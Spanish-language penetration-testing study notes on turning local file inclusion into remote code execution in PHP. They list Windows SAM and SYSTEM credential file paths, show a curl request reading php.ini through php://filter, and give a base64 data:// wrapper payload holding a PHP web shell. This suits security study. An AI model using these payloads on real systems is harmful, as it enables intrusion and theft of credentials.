 ```bash
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

- [https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)

## DE LFI A RCE

Para obtener la ejecucion remota de comandos la idea es que podamos leer un archivo de logs con el LFI o RFI (tener permisos de lectura) y que esos logs los interprete la web, para eso se injectara codigo malicioso en PHP que sera interpretado y para dar una ejecucion de comandos remoto.

### PHP WRAPPERS

#### wrapper data

El WRAPPER DATA se puede utilizar para incluir datos externos, incluido el código PHP. Sin embargo, esto solo está disponible para usar si la configuración (`allow_url_include`) está habilitada en las configuraciones de PHP.

**Comprobación de las configuraciones de PHP**

Para hacerlo, podemos incluir el archivo de configuración de PHP que se encuentra en ( `/etc/php/X.Y/apache2/php.ini`) para Apache o en ( `/etc/php/X.Y/fpm/php.ini`) para Nginx, donde `X.Y`está su versión de instalación de PHP.

Usaremos el filtro `base64`, ya que los archivos `.ini` son similares a los archivos `.php` y deben codificarse para evitar que se rompan.

```bash
#obtencion del archivo ode configuracion en base64
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

#verificacion de la configuracion
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

si el resultado es `allow_url_include = On` podemos continuar.

>[!note]
>Esta opcion no esta habilitada por defecto.

**ejecucion remota de comandos**

Con `allow_url_include` habilitado, podemos continuar con nuestroataque usando el wrapper `data`. Como se mencionó anteriormente, este wrapper se puede usar para incluir datos externos, incluido el código PHP. También podemos pasarle cadenas codificadas en `base64` con `text/plain;base64`, y tiene la capacidad de decodificarlas y ejecutar el código PHP.

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64 

data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
